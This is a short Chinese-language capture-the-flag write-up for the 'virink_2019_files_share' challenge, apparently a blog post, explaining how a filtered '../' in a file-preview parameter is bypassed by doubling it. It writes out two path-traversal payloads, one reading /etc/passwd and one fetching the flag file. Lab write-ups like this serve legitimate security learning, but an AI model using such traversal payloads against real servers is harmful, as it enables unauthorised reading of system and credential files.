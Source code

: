 ```yaml
---
title: virink_2019_files_share、
date: 2024-09-24 20:28:25
tags: 任意文件执行
categories: 刷题笔记
---
```


## virink_2019_files_share

我们打开页面源码发现一个提示

![image-20240924205211600](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409242052708.png)

flag在f1ag_Is_h3re

我们扫描url发现uploads文件夹

<!--more-->

![image-20240924205936244](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409242059285.png)

点击Preview，我们发现任意文件下载

我们用../index.php，发现../被过滤了

![image-20240924210202198](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409242102242.png)

那我们使用双写绕过

```
preview?f=....//....//....//....//....//....//....//....//....//....//etc..//passwd 
```

![image-20240924210601293](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409242106358.png)

成功绕过

我们直接访问flag，得到flag

```
/preview?f=....//....//....//....//....//....//....//....//....//....//f1ag_Is_h3re..//flag
```

![image-20240924210728559](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409242107703.png)
